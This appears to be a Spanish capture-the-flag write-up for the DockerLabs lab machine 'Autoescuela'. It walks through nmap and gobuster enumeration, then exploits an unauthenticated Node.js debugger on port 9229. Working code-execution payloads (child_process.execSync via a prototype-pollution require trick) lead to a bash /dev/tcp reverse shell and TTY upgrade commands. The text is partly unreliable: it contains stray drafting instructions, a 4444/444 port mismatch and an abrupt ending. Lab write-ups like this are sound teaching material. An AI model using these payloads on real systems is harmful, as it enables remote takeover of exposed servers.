








# 🧠 **Informe de Pentesting – Máquina: Autoescuela**

### 💡 **Dificultad:** Fácil

📦 **Plataforma:** DockerLabs


---

# 🚀 **Despliegue de la Máquina**

Para desplegar la máquina vulnerable, primero descomprimimos el archivo proporcionado y posteriormente ejecutamos el script encargado de levantar el entorno Docker:

```bash
unzip autoescuela.zip
sudo bash auto_deploy.sh autoescuela.tar
```

Este proceso iniciará automáticamente los contenedores necesarios para la simulación.



---

# 📶 **Comprobación de Conectividad**

Antes de comenzar la fase de reconocimiento, verificamos conectividad con la máquina objetivo mediante solicitudes ICMP:

```bash
ping -c1 172.17.0.2
```

La respuesta confirma que el host se encuentra activo dentro del segmento de red.



---

# 🔍 Escaneo de Puertos

## 🔎 Enumeración Inicial de Servicios

Se realiza un escaneo completo sobre todos los puertos TCP con el objetivo de identificar servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

Parámetros utilizados:

* `-p-` → Escaneo completo de puertos.
* `--open` → Mostrar únicamente puertos abiertos.
* `-sS` → SYN Scan.
* `--min-rate 5000` → Incrementa velocidad del escaneo.
* `-n` → Evita resolución DNS.
* `-Pn` → Omite descubrimiento ICMP.



---

## 📌 Puertos Detectados

Durante la enumeración se identifican los siguientes servicios:

* `8080/tcp` → HTTP
* `9229/tcp` → Node.js (explica en 54 palabar el servicio deeste puerto)

---

## 🧩 Enumeración de Servicios y Versiones

Con los puertos identificados procedemos a obtener versiones y banners:

```bash
nmap -sCV -p8080,9229 172.17.0.2
```


---

# 🧭 Reconocimiento Web

## 🖥️ Acceso Inicial

Accedemos a la aplicación web:

```bash
http://172.17.0.2
```
El sitio responde correctamente aunque presenta contenido limitado.


---

---

# 🗂️ Enumeración de Directorios

Realizamos fuzzing de rutas utilizando Gobuster:

```bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 8068
```

El objetivo es descubrir recursos no indexados o directorios olvidados.



Durante la enumeración encontramos un recurso especialmente interesante:

```bash
/contacto
/css
```

```bash
gobuster dir -u http://172.17.0.2:9229/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 8068
```
Durante la enumeración encontramos un recurso especialmente interesante:

```bash
/JSON
/json
```



Al saber que exite el servicio node nos intentamos conectar (explica mas de este servicio y este error en 79 palabras mas):

```bash
node inspect 172.17.0.2:9229 
```
Nota: Logramos acceder ya que no es necesaria la contraseña y podemos investigar cosas como versiones y como responde este servicio:

En la imagen se muestra una sesión de depuración interactiva de Node.js (un entorno debug>). El atacante o auditor está explotando una vulnerabilidad de Prototype Pollution (Contaminación de Prototipos) para ejecutar comandos en el sistema operativo y, finalmente, intentar obtener una Reverse Shell (consola reversa).

A continuación, desgloso cada comando utilizado, su estructura y su propósito.
1. Comprobación de versiones
JavaScript

exec('process.versions')

    Estructura: Llama al objeto global process de Node.js y accede a su propiedad versions.

    Para qué sirve: Muestra las versiones de Node.js y de las librerías internas que se están ejecutando (como node: '22.22.2', acorn, ada, etc.). Sirve para reconocer el entorno y saber si la versión de Node.js instalada tiene vulnerabilidades conocidas.

2. Intento de ejecución nativa (Bypass inicial)
JavaScript

exec('const spawn = process.binding("spawn_sync"); const result = spawn.spawn({file:"/bin/sh",args:["/bin/sh","-c","id"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true}],envPairs:[]}); result.output[1]')

    Estructura: Utiliza funciones internas de bajo nivel de Node.js (process.binding("spawn_sync")) para intentar levantar el binario /bin/sh y ejecutar el comando id.

    Para qué sirve: Intenta ejecutar comandos directamente en el sistema de una forma muy primitiva. Devuelve un Uint8Array(57), lo que significa que el sistema respondió, pero la salida no es cómoda de leer (está en bytes).

3. Inyección del método require en el prototipo global
JavaScript

exec('Object.prototype.require = function(m) { return process.mainModule.require(m) }')

    Estructura: Modifica el prototipo base de todos los objetos en JavaScript (Object.prototype). Le añade una función personalizada llamada require que por dentro invoca al require del módulo principal (process.mainModule.require).

    Para qué sirve: Este es el núcleo del exploit (Prototype Pollution). En ciertos entornos restringidos o sandboxes, la función global require (usada para importar librerías) está bloqueada o no existe. Al "contaminar" el prototipo de los objetos, ahora cualquier objeto vacío {} heredará mágicamente la función require.

4. Prueba de contaminación y verificación de persistencia
JavaScript

exec('Object.prototype.polluted = "yes"; polluted')

    Estructura: Añade la propiedad polluted con el valor "yes" al prototipo base. Luego intenta leer la variable polluted.

    Para qué sirve: Es un test clásico para confirmar que la contaminación de prototipos funcionó. Al responder 'yes', confirma que el entorno es vulnerable y los cambios persisten.

5. Ejecución de comandos usando el bypass
JavaScript

exec('({}).require("child_process").execSync("id").toString()')

    Estructura: * ({}): Crea un objeto vacío en JavaScript.

        .require("child_process"): Como el prototipo fue contaminado en el paso 3, este objeto vacío ahora tiene acceso a require. Importa el módulo nativo child_process (usado para interactuar con el sistema operativo).

        .execSync("id"): Ejecuta el comando de Linux id de forma síncrona.

        .toString(): Convierte los bytes de respuesta en texto legible.

    Para qué sirve: Verifica que el atacante ya tiene RCE (Remote Code Execution) completo. La respuesta 'uid=1001(webuser) ...' demuestra que ha tomado el control y está ejecutando comandos bajo el usuario de Linux webuser.

6.  de Reverse Shell (Consola Reversa)
Nos podemos en modos escucha en la maquina atacante
```bash
sudo nc -lvnp 4444   
```
JavaScript
```bash
exec('({}).require("child_process").execSync("bash -c \'bash -i >& /dev/tcp/192.168.0.100/444 0>&1\'")')
```
    Estructura: Utiliza la misma técnica del paso anterior, pero en lugar de un comando simple como id, intenta ejecutar un payload clásico de Bash para redes: bash -i >& /dev/tcp/[IP]/[PUERTO] 0>&1.

        bash -i: Inicia un prompt de Bash interactivo.

        >& /dev/tcp/...: Redirige la entrada y la salida estándar a través de la red hacia la dirección IP del atacante (192.168.0.100) en el puerto 444.

    Para qué sirve: Sirve para que la máquina de la víctima "llame de vuelta" a la máquina del atacante, otorgándole una consola de comandos remota y directa (Reverse Shell).


Gracias a esta falla se obtiene una nueva shell



Tratamiento TTY

```bash
script /dev/null -c bash
```
# <Ctrl> + <z>

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export SHELL=/bin/bash
```
En el directorio /home/webuser exite ub .txt



 
